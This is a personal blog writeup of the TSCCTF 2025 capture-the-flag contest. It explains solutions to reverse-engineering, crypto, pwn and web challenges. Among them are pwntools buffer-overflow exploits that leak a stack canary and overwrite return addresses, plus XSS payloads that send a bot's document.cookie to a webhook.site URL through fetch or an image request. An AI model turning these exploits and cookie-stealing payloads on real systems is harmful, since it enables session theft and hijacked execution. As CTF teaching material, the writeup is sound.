

---
# Copyright (c) Gagah Pangeran Rosfatiputra (GPR) <gpr@gagahpangeran.com>.
# Licensed under CC-BY-NC 4.0.
# Read the LICENSE file inside the 'content' directory for full license text.

title: "TSCCTF 2025 Writeup"
date: "2025-02-22T23:50:00+07:00"
featuredImage: "./img/hat.png"
tags: ["CTF", "Writeup", "TSCCTF", "Taiwan", "Cryptography", "Reverse Engineer",
"Pwn", "XSS", "Buffer Overflow"]
lang: "en"
---

I need to use VPN (and maybe it connects to Taiwan) to solve challenges in this
CTF.

<!-- excerpt -->

Last week just like in [previous writeup][prevwriteup], I open CTFTime and
register to [TSCCTF 2025][tscctf] to do some CTF for fun.

If you want to skip the intro, just jump using this table of content. You can
also find my other CTF writeup under [CTF][ctftag] tag.

---

- [Welcome](#welcome)
  - [Give you a free flag](#give-you-a-free-flag)
  - [Please Join Our Discord!!!](#please-join-our-discord)
  - [Feedback Form](#feedback-form)
- [Reverse](#reverse)
  - [What_Happened](#what_happened)
  - [Chill Checker](#chill-checker)
  - [Gateway to the Reverse](#gateway-to-the-reverse)
- [Crypto](#crypto)
  - [Very Simple Login](#very-simple-login)
  - [Classic](#classic)
- [Pwn](#pwn)
  - [gamble_bad_bad](#gamble_bad_bad)
  - [Localstack](#localstack)
  - [窗戶麵包](#窗戶麵包)
- [Web](#web)
  - [book](#book)
  - [Beautiful World](#beautiful-world)

---

This CTF is unusual. The event is on weekday instead of weekend and it is
individual competition instead of team competition.

Because it's on weekend, I am solving most of the challenge at night. The no
team part is not problem for me, because I usually just do solo CTF.

Another interesting thing is to connect to some service in this CTF, we have to
connect to the VPN that are provided by the organizer.


The first time I saw this, I am afraid that when I connect to this VPN they will
steal my data. So, I try to only connect when I only need to access the
challenge's service.

We are given the wireguard config and tutorial how to connect the VPN for
windows only.

Tips for linux user to connect to VPN using wireguard config.

- Install `wireguard-tools` package or something equivalent on your distro.
- Place your wireguard config to `/etc/wireguard`.
- Make sure you have the correct permissions of that directory.

  ```bash
  sudo chown root:root -R /etc/wireguard && sudo chmod 600 -R /etc/wireguard
  ```

- To connect the VPN, you can use this command.

  ```bash
  wg-quick up <config-name>
  ```

- And to disconnect, you can use this command.

  ```bash
  wg-quick down <config-name>
  ```

For example if your config file is `vpn.conf`, you can connect and disconnect
using command `wg-quick up vpn` and `wg-quick down vpn`.

Aside from this VPN shenanigan, I do well in this CTF. I solve 13 challenges
(2023 points) and get **24th place**.

And bellow is my writeup for this CTF. Enjoy!

## Welcome

These are just free flags in this category.

### Give you a free flag

_Score: 50 (417 Solves)_

這裡據說藏了個 Flag

Author: Ruki

**Solution**

Just highlight the hidden text in the description to get the flag.

**Flag**

```txt
TSC{W3llc0me_t0_TSC2O2SIlIllI}
```

### Please Join Our Discord!!!

_Score: 50 (261 Solves)_

想要我的 Flag 嗎？想要的話就送給你吧！自己去找吧，我把它埋藏在那裡了 於是...許多
人爭相前往「TSCCTF Discord」，並追逐著這個夢想 所以，當時的年代可以說是一個「大
資安時代」！

Author: 哥爾·D·Kazma

**Solution**

Join their discord and find the flag in the announcement channel description.

**Flag**

```txt
TSC{w31c0m3_t0_t5cc7f2025_d15c0rd!!!}
```

### Feedback Form

Please fill out feedback form. Thank you!

_Score: 50 (110 Solves)_

**Solution**

Fill out the feedback form and get the flag at the end.

**Flag**

```txt
TSC{thanks_for_playing_and_c_u_nexy_year!}
```

## Reverse

I only solve the easy challenges in this category. As a heads up, I rename some
of the variable and function name in ghidra so it is easier to read.

### What_Happened

_Score: 50 (146 Solves)_

其實我也不太清楚發生什@#!@麼事@#情

但@#@##%(()^%()!

!%%@$東!@#%()&西#!#)&&)

放ˋˋ@($)@俺@Xsa在納莉

Auth: Ruki

file: [main.exe](./files/main.exe)

**Solution**

Let's open this file in ghidra. You will find this function if you search `flag`
string.


You can see that this function take data from `_flag_encrypted`, do some xor
operation, and print the decrypted flag.

Let's see the `_flag_encrypted` data.


Now we can just make python program with the same data and function.

```python
enc = [0xfe, 0xf9, 0xe9, 0xd1, 0xe3, 0xf5, 0xfe, 0xc2, 0xc3, 0xc4, 0xc1, 0xf5,
       0xd3, 0xc5, 0xdf, 0xf5, 0xec, 0xc3, 0xd2, 0xf5, 0x98, 0xc5, 0xc7, 0xcf,
       0xf5, 0x99, 0xd8, 0xd8, 0xc5, 0xd8, 0xd7]

flag = ''.join([chr(e ^ 0xaa) for e in enc])
print(flag)
```

**Flag**

```txt
TSC{I_Think_you_Fix_2ome_3rror}
```

### Chill Checker

_Score: 50 (115 Solves)_

Just Reverse and Chill.

Author: Kazma

file: [chill](./files/chill)

**Solution**

Let's open this file in ghidra and we can see the main function.


We can see that this program gets `input` and then do something with it using
`complex_function` function 8 times. After that `input` is compared with
`target` and if both are same, we get the flag from `generate_flag` function.

Now let's see what `complex_function` do.


We can see that this function receive `param_1` and `param_2`. From main
function we know that `param_1` is a character from our `input` and `param_2` is
index of the character plus 8. This function is basically just do character
shifting by its index plus 8.

Now we have this information, we need to find string to input and it become the
same as `target` after doing the `complex_function` 8 times. Here is the code.

```python
target = [0x53, 0x47, 0x5a, 0x49, 0x59, 0x49, 0x48, 0x57]

s = ""
for i in range(len(target)):
    c = ((target[i] - 65) - (i+8)*31) % 26 + 65
    assert 64 < c < 91
    s += chr(c)

print(s)
```

Then we can pipe this function output to the `chill` program input to get the
flag.

**Flag**

```txt
TSC{t4k3_1t_3a$y}
```

### Gateway to the Reverse

_Score: 50 (92 Solves)_

都 2025 年了，除了 IDA & Ghidra 你還會什麼逆向工具！？

Author: Kazma

file: [gate](./files/gate)

**Solution**

Let's open this file in ghidra and see the main function.


We can see the `input` is compared with `target` and `target` itself is passed
to function `something`.

Now let's see `something` function.


We see that the final value of `target` is obtained from xor operation with
`data`. We can get the `data` from main function.

Here is the code.

```python
target = [0x4e, 0x4c, 0x3d, 0x72, 0x6a, 0x65, 0x2b, 0x66, 0x53, 0x26,
          0x65, 0x56, 0x50, 0x21, 0x52, 0x64, 0x4b, 0x7f, 0x3d, 0x65,
          0x3b, 0x7b, 0x79, 0x36, 0x43, 0x47, 0x34, 0x41, 0x69, 0x66]

flag = ''.join([chr((target[i] ^ (i + 1)) + 5) for i in range(len(target))])
print(flag)
```

**Flag**

```txt
TSC{th1s_1s_b4by_r3v3rs3_b4by}
```

## Crypto

I only solve two easiest crypto challenges.

### Very Simple Login

_Score: 50 (144 Solves)_

`nc 172.31.2.2 36900`

Author : Curious

file: [server.py](./files/server.py)

**Solution**

First, let's see the `main` function of this server.

```python
def main():
    key = os.urandom(32)
    for _ in range(32):
        choice = menu()
        if choice == 1:
            username = input('Username > ')
            try:
                token = register(username, key)
            except Exception:
                print('Username Error !', end='\n\n')
                continue
            print(f'Token : {token.hex()}', end='\n\n')
        if choice == 2:
            token = bytes.fromhex(input('Token > '))
            try:
                username = login(token, key)
            except Exception:
                print('Token Error !', end='\n\n')
            if username == 'Admin':
                print(f'FLAG : {FLAG}', end='\n\n')
                sys.exit()
            else:
                print('FLAG : TSC{???}', end='\n\n')
        if choice == 3:
            sys.exit()
```

We can get the flag if we login with token that contains username `Admin`.

If you read the whole program, there is not something that prevent us to
register username `Admin` and use its token to login.


**Flag**

```txt
TSC{Wr0nG_HM4C_7O_L3A_!!!}
```

### Classic

_Score: 50 (130 Solves)_

The classics never fade.

Author : freddy

file: [share.tgz](./files/share.tgz)

**Solution**

We've got two files `chal.py` and `flag`, let's see the `chal.py`.

```python
import os
import string
import secrets

flag = os.getenv("FLAG") or "TSC{test_flag}"

charset = string.digits + string.ascii_letters + string.punctuation
A, B = secrets.randbelow(2**32), secrets.randbelow(2**32)
assert len(set((A * x + B) % len(charset) for x in range(len(charset)))) == len(charset)

enc = "".join(charset[(charset.find(c) * A + B) % len(charset)] for c in flag)
print(enc)
```

We can see that this program is doing some kind of character replacement of
`flag` to `enc` with this formula.

$$
e_i = A f_i + B \pmod{M}
$$

Where $M$ is length of `charset`, $f_i$ is value of `charset.find(flag[i])`, $A$
and $B$ are random value. We can then convert value of $e_i$ to `enc[i]` using
`charset[e_i]`.

First we need to find the value of $A$ and $B$. We know that the prefix of the
flag is `TSC{`. So we know the value of $f_0$ and $f_1$ are using character `T`
and `S` respectively. Now we have these equations.

$$
\left\{ \begin{aligned}
e_0 \equiv A f_0 + B \pmod{M}\\
e_1 \equiv A f_1 + B \pmod{M}
\end{aligned} \right.
$$

Then we can subtract these two equation.

$$
e_0 - e_1 \equiv A (f_0 - f_1) \pmod{M}
$$

We know that $f_0 - f_1 = 1$ because character `T` and `S` are next to each
other and their difference is $1$. So now we get the value of $A$.

$$
\begin{aligned}
e_0 - e_1 &\equiv A \pmod{M}\\
A &\equiv e_0 - e_1 \pmod{M}
\end{aligned}
$$

Now we can get back the value of $B$.

$$
\begin{aligned}
e_0 &\equiv A f_0 + B \pmod{M}\\
B &\equiv e_0 - A f_0 \pmod{M}
\end{aligned}
$$

Now we know the value of $A$ and $B$, we can reverse the formula above.

$$
\begin{aligned}
e_i &\equiv A f_i + B \pmod{M}\\
A f_i &\equiv e_i - B \pmod{M}\\
f_i &\equiv (e_i - B) A^{-1} \pmod{M}
\end{aligned}
$$

with $A^{-1}$ is invese modulo of $A$.

Here is the code, the variables might be a little different from some notation
above.

```python
import string

charset = string.digits + string.ascii_letters + string.punctuation

M = len(charset)

enc = open("./flag", "r").read().strip()

f0 = charset.find('T')
e0 = charset.find(enc[0])

f1 = charset.find('S')
e1 = charset.find(enc[1])

assert f0 - f1 == 1

A = (e0 - e1) % M
B = (e0 - (f0 * A)) % M

flag = ''.join([charset[((charset.find(e) - B) * pow(A, -1, M)) % M] for e in enc])
print(flag)
```

**Flag**

```txt
TSC{c14551c5_c1ph3r5_4r5_fr4g17e}
```

## Pwn

All of pwn challenges that I solve are just some kind of simple buffer overflow
exploit.

### gamble_bad_bad

_Score: 50 (152 Solves)_

就

拉霸機

非常好玩的拉霸機

你有辦法贏得大獎嗎?

Auth: Ruki

`nc 172.31.0.2 1337`

file: [main.cpp](./files/main.cpp)

**Solution**

Let's see what's inside `main.cpp`.

```cpp
#include <string.h>
#include <iostream>
#include <stdio.h>
using namespace std;

void jackpot() {
    char flag[50];
    FILE *f = fopen("/home/gamble/flag.txt", "r");
    if (f == NULL) {
        printf("錯誤：找不到 flag 檔案\n");
        return;
    }
    fgets(flag, 50, f);
    fclose(f);

    printf("恭喜你中了 777 大獎！\n");
    printf("Flag 是：%s", flag);
}

struct GameState {
   char buffer[20];
   char jackpot_value[4];
} game;

void spin() {
   strcpy(game.jackpot_value, "6A6");

   printf("輸入你的投注金額：");
   gets(game.buffer);

   printf("這次的結果為：%s\n", game.jackpot_value);

   if (strcmp(game.jackpot_value, "777") == 0) {
       jackpot();
   } else {
       printf("很遺憾，你沒中獎，再試一次吧！\n");
   }
}

int main() {
   setvbuf(stdout, NULL, _IONBF, 0);
   setvbuf(stdin, NULL, _IONBF, 0);
   printf("歡迎來到拉霸機！試著獲得 777 大獎吧！\n");
   spin();
   return 0;
}
```

We can see that to get the flag, we need to call `jackpot` function. We can call
this function if value of `game.jackpot_value` is `777`. But this program only
received input and store it to `game.buffer`.

We can see that this program uses `gets(game.buffer)` without checking any guard
of possible buffer overflow in `game.buffer`. So we can just give input
`77777777777777777777777` (string of character `7` with length 23).

The first 20 characters will fill up `game.buffer` and then the next 3
characters will overflow and rewrite the value of `game.jackpot_value` to `777`.


**Flag**

```txt
TSC{Gamb1e_Very_bad_bad_but_}
```

### Localstack

_Score: 310 (27 Solves)_

This is my stack implementation for data structure course's homework I. I
enabled all protections so it should be safe, right?

Author: pwn2ooown

`nc 172.31.1.2 11100`

file: [localstack.zip](./files/localstack.zip)

**Solution**

We are given the source code file of this challenge.

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#define MAX_STACK_SIZE 20
#define MAX_INPUT_SIZE 25

void print_flag() {
    char flag[64];
    FILE *f = fopen("flag", "r");
    if (f == NULL) {
        perror("fopen");
        exit(1);
    }
    fgets(flag, sizeof(flag), f);
    printf("%s",flag);
    fclose(f);
}

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    char input[25];
    char command[25];
    int64_t stack[MAX_STACK_SIZE];
    int64_t top = -1;
    int64_t value;
    puts("Commands: 'push <value>', 'pop', 'show', 'help', or 'exit'");

    while (1) {
        printf(">> ");
        fgets(input, sizeof(input), stdin);
        sscanf(input, "%s", command);

        if (strcmp(command, "push") == 0) {
            if (sscanf(input, "%*s %ld", &value) == 1) {
                stack[++top] = value;
                printf("Pushed %ld to stack\n", value);
            } else {
                printf("Invalid push.\n");
            }
        } else if (strcmp(command, "pop") == 0) {
            printf("Popped %ld from stack\n", stack[top--]);
        } else if (strcmp(command, "show") == 0) {
            printf("Stack top: %ld\n", stack[top]);
        } else if (strcmp(command, "exit") == 0) {
            break;
        }
        else if (strcmp(command, "help") == 0) {
            puts("Commands: 'push <value>', 'pop', 'show', 'help', or 'exit'");
        } else {
            printf("Unknown command: %s\n", command);
        }
    }
    return 0;
}
```

We can get the flag in function `print_flag`. So we have to do some kind of
bufferoverflow to overwrite the program stack and jump to that function.

Let's checksec the binary.


All security is enabled, it means we can't just do buffer offerflow and
overwrite the stack to jump to `print_flag` function.

Let's look again the `main` function. We see that there is no guard for the
`top` variable. So when we do `push` or `pop` operation, the `top` value can be
negative or exceed `MAX_STACK_SIZE`. It means we can access another values
outside the `stack` array. Let's check another values before the `stack.

```python
from pwn import *

chall = "./localstack"

p = process(chall)

p.recvline().decode()

n = 29
for i in range(n):
    p.recvuntil(b">> ")
    p.sendline(b"pop")
    r = p.recvline().decode().strip().split()
    v = int(r[1])
    print(hex(v))
```


We can see the third output value `0x5584cde279f`, this is some address value in
our program. We will save this value to do some relative address manipulation
later. Also, we can see that the last output value `0x3f9156898fd5a700` is the
canary.

You can check and compare those value using gdb.

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'
context.terminal = ["kitty"] # change to your own terminal

chall = "./localstack"

# p = process(chall)
p = gdb.debug(chall, gdbscript='''
break main
continue
''')

p.recvline().decode()

n = 30
for i in range(n):
    p.recvuntil(b">> ")
    p.sendline(b"pop")
    r = p.recvline().decode().strip().split()
    v = int(r[1])
    print(hex(v))
```


The exact position of the canary value may be different. You can change variable
`n = 29` and do trial and error until you found the canary value.

Now we know the canary value, we then check how many value can we push to the
`stack` until it hits the canary check. After some trial and error we got the
value of `n = 30`.

```python
from pwn import *

chall = "./localstack"

p = process(chall)

p.recvline().decode()

n = 30
for i in range(n):
    payload = f"push {i}"
    p.recvuntil(b">> ")
    p.sendline(payload.encode())
    p.recvline()

p.recvuntil(b">> ")
p.sendline(b"exit")

p.interactive()
```


We got hit by stack smashing error, it means the 30th value of `stack` is the
canary.

Next we need to find the distance between the canary to return address in the
stack. After some trial and error, we found that there is one stack distance
between the canary and the target address. Also we make sure that the position
of the canary on the remote server using the same way above. And here is our
final code.

```python
from pwn import *

chall = "./localstack"

# p = process(chall)
p = remote("172.31.1.2", 11100)

known_addr = 0x149f
known_target = 0x1289

p.recvline().decode()

vals = []

# Find the relative address and canary value
# n = 29
n = 31
for i in range(n):
    p.recvuntil(b">> ")
    p.sendline(b"pop")
    r = p.recvline().decode().strip().split()
    v = int(r[1])
    vals.append(v)

canary = vals[-1]
print(hex(canary))
assert(canary >= 0)

addr_diff = known_addr - known_target

cur_addr = vals[2]
cur_target = cur_addr - addr_diff

assert len(vals) == n

# Put back the values we pop before
for i in range(n):
    v = vals.pop()
    payload = f"push {v}"
    p.recvuntil(b">> ")
    p.sendline(payload.encode())
    p.recvline()

# Push some values before the canary
n = 29
for i in range(n):
    payload = f"push {i}"
    p.recvuntil(b">> ")
    p.sendline(payload.encode())
    p.recvline()

# Push the canary value
payload = f"push {canary}"
p.recvuntil(b">> ")
p.send(payload.encode())
p.recvline()

p.recvuntil(b">> ")
p.sendline(b"push 0")
p.recvline()

payload = f"push {cur_target}"
p.recvuntil(b">> ")
p.sendline(payload.encode())
p.recvline()

p.recvuntil(b">> ")
p.sendline(b"exit")

p.interactive()
```

We get `known_addr` and `known_target` by doing objdump of the binary. For
`known_addr`, we know that it always ends with `49f`.


Let's run the exploit.


**Flag**

```txt
TSC{1_g07_0_point_1n_D474_57ruc7ur3_d0_U_hAv3_anY_1d3a?_haha}
```

### 窗戶麵包

如果你已經吃過我們招牌企鵝麵包了，那你趕緊來試試我們最新的窗戶麵包！！！

Author: Kazma

`nc 172.31.0.3 56001`

file: [bread.exe](./files/bread.exe)

**Solution**

We are given PE32+ executable file. First, let's open it with ghidra.


We can see that on main function, it is leaking the `main` function address and
read the input without any buffer overflow guard.

Above the main function, we can see there is `magic` function.


We can execute `cmd.exe` in this function.

We see that the parameters of this function is not relevant and we can jump
straight ahead to the `WinExec` line.

First, we must find the padding for our payload until it causes buffer overflow.
If you are using linux, you can run this binary using wine.

This is how I debug this program to find how many character for the padding.

- Run with `wine bread.exe`.
- In another terminal find the PID using `ps aux | grep bread.exe`.
- Then run `gdb -p <PID>`.

  If you get error `ptrace: Operation not permitted`, you must disable
  `ptrace_scope` using this command.

  ```bash
  echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
  ```

  Don't forget to turn it on again later.

- In gdb, add breakpoint on `0x14000155c` using command `b *0x14000155c`.

  This is the address of `ret` instruction in main function that I got from
  ghidra. For some reason the address does not change when I run the program
  locally.

  

- Back to the first terminal, enter some input to check the overflow. In this
  case, try to input 60 characters of `a`.
- Continue the program in gdb. It will hit breakpoint before `ret` instruction
  is executed.


We can see that the last four `a` character and two newline character is now the
main function return address. So now we know that the padding will be 56
characters long.

Now we know our padding and leaked main address, we can get the relative address
by knowing the main address and target address from our program locally.


We see that the value for main address and target address are `0x1400014db` and
`0x1400014bc` respenctively.

So, here is the exploit code.

```python
from pwn import *

# p = process(["wine", "./bread.exe"])
p = remote("172.31.0.3", 56001)

r = p.recvline_contains(b"Something important").decode()
addr = r[r.find('0'):r.find('0')+16]
print(addr)

known_main = 0x1400014db
known_target = 0x1400014bc

addr_diff = known_main - known_target

main_addr = int(addr, 16)
target_addr = main_addr - addr_diff

payload = b"a" * 56 + p64(target_addr)

print(p.recvline_contains(b"flag?").decode())
p.sendline(payload)

p.interactive()
```

For some reason, maybe there is some kind of encoding error that cause some
cryptid output in my terminal. Maybe because difference of windows on the remote
and my local terminal on linux. With some luck, I guess the file is `flag.txt`
and try to read it.


**Flag**

```txt
TSC{w1nd0w5_buff3r_0v3rfl0w_1s_g0d_d4mn_34sy}
```

## Web

I only solve two web challenges and both are some kind of XSS exploit.

### book

_Score: 388 (21 Solves)_

Just a book site, you can create your own boook and share it to admin!

Author: Vincent55

http://172.31.3.2:8000

file: [book-shared.zip](./files/book-shared.zip)

**Solution**

We are given some kind of note sharing website. If we search `flag` in the
challenge source code given, we can see that the flag is file `bot/bot.js`. The
flag is assigned to the bot's browser cookie and we need to steal that cookie
when the bot visits our note.

Inside file `app/templates/book.html`, we can see this code.

<!-- prettier-ignore-start -->
```html
<body>
    <div class="book-container">
        <h1 class="book-title" id="title"></h1>
        <div class="book-content" id="content"></div>
        <div class="nav-links">
            <a href="{{ url_for('index') }}">📚 Return to Index</a>
        </div>
    </div>
    <script>
        document.addEventListener("DOMContentLoaded", () => {
            const urlParams = new URLSearchParams(window.location.search);
            const title = atob(urlParams.get("title"));
            const content = atob(urlParams.get("content"));
            document.getElementById("title").innerHTML =
                DOMPurify.sanitize(title);
            if (typeof config !== "undefined" && config.DEBUG) {
                document.getElementById("content").innerHTML = content;
            } else {
                document.getElementById("content").innerHTML =
                    DOMPurify.sanitize(content);
            }
        });
    </script>
</body>
```
<!-- prettier-ignore-end -->

We can see that to do some XSS, we have to bypass the guard
`if (typeof config !== "undefined" && config.DEBUG)`.

Variable `config` is some kind of global object in browser. Now how can we
change that?

I found out about [DOM Clobbering][domclob] exploit. Basically we can manipulate
the DOM and change the behavior of javascript on the page. We are "clobbering"
the global variable and overwriting it with the DOM.

Now we know that we need to make the variable `config.DEBUG` to be truthy. We
can find collections of the DOM Clobering payload from [here][clobpayload]. We
will use this payload for the title and change `config.DEBUG` value on the page.

```html
<form id="config"><button id="DEBUG"></button></form>
```

We can check in the console that value of `config.DEBUG` is already changed.


Now we successfully bypass this guard, next we can just do the XSS. We set up a
webhook from [this site][webhooksite] to capture our fetch request. The we can
fill the content with this payload to get the cookie on the page and send it to
our webhook.

```html
/?cookie=" + document.cookie)'
/>
```

We can't directly use the `<script>` tag because DOM purify will remove it. So,
we use `onerror` attribute to call the `fetch` function instead.

Don't forget to submit the page url in `/report` page and wait the bot to visit.


**Flag**

```txt
TSC{CLOBBERING_TIME!!!!!_ui2qjwu3wesixz}
```

### Beautiful World

_Score: 409 (19 Solves)_

What a wonderful and beautiful world for frontend

Author: Vincent55

http://172.31.3.2:8001

file: [world-shared.zip](./files/world-shared.zip)

**Solution**

We are given another kind of note sharing app. Just like the book challenge
before, the flag is in file `bot/bot.js` and we have to steal it.

First, open file `app/main.py` and we can see this code.

```python
@app.route("/note", methods=["GET"])
def view_note():
    """View a note"""
    content = base64.urlsafe_b64decode(request.args.get("content", "")).decode()

    # Check if the content is harmful content or not with BeautifulSoup.
    soup = BeautifulSoup(content, "html.parser")
    if sum(ele.name != 's' for ele in soup.find_all()):
        return "no eval tag."
    if sum(ele.attrs != {} for ele in soup.find_all()):
        return "no eval attrs."

    return render_template("note.html", note=content)
```

Our note is parsed using BeautifulSoup and it only allows `<s>` html tag without
any attribute.

Next, we see the code in `app/templates/note.html`.

<!-- prettier-ignore-start -->
```html
<body>
    <h1>🌞 Beautiful World - View</h1>
    <s>a beautiful world is full of strikethrough.</s>

    
    <div>{{ note }}</div>
    

    <a href="{{ url_for('index') }}">Back to Pages</a>
</body>
```
<!-- prettier-ignore-end -->

The jinja autoescape is turn off in this template, so we can do XSS exploit here
freely. Now our task is just bypass the check on only allow `<s>` tag.

I found [this writeup][beautiwriteup] and found out we can use this payload and
BeautifulSoup will parse it as html comment, but jinja will parse it as valid
html tag.

```html
<!--><script>alert(1)</script>-->
```

Now we can use `<script>` tag to get the flag and send it to our webhook like
book challenge before.

```html
<!-->
<script>
  fetch("https://webhook.site/<webhook-id>/?cookie=" + document.cookie);
</script>
-->
```

We submit the note and... it fails. We check the network and console and see
this.


We check again in `app/templates/note.html`, there is this code in the header.

<!-- prettier-ignore-start -->
```html
<meta
    http-equiv="Content-Security-Policy"
    content="connect-src 'self';"
/>
```
<!-- prettier-ignore-end -->

There is this CSP rule that only allows connecting to its own domain. How do we
bypass this? We can just create `` that request to our webhook.

```html
<!-->
<script>
  img = document.createElement("img");
  img.src = "https://webhook.site/<webhook-id>/?cookie=" + document.cookie;
  document.body.appendChild(img);
</script>
-->
```

Then we submit our note on `/report` page and wait for request to our webhook.


**Flag**

```txt
TSC{Dont_use_Beautifulsoup_to_sanitise_HTML_u2gqwiewgyqwas}
```

## Closing

Overall I enjoy this CTF especially the pwn challenges and web challenges. Maybe
I could invest more time to solve more challenges if this CTF was on the
weekend.

I have only two criticisms. First, it's annoying to use VPN to connect to the
challenge's service. Second, some of the description and challenges are onlt in
chinese/mandarin. Maybe because this CTF is mainly for Taiwan parcipant so they
didn't use English as main language. I already submit about this to their
feedback form and hopefully next year it will be better.

It was a fun CTF and also I get 24th place. Not too bad just for casual attempt.

I hope you enjoy this writeup. See you next time!

[prevwriteup]: /blog/l3akctf-2024-writeup/
[tscctf]: https://ctftime.org/event/2598
[ctftag]: /blog/tag/ctf/
[domclob]: https://portswigger.net/web-security/dom-based/dom-clobbering
[clobpayload]: https://domclob.xyz/domc_markups/list
[webhooksite]: https://webhook.site
[beautiwriteup]: https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu
